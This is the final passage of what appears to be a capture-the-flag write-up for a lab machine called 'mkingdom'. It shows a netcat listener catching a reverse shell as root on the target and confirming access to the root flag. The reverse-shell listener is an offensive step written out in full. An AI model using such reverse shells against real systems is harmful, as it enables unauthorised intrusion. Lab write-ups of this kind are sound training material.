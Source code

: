 And we get a shell as the `root` user on our listener and can read the root flag.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.69.96] 40518
bash: cannot set terminal process group (27782): Inappropriate ioctl for device
bash: no job control in this shell
root@mkingdom:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@mkingdom:~# wc -c root.txt
wc -c root.txt
38 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>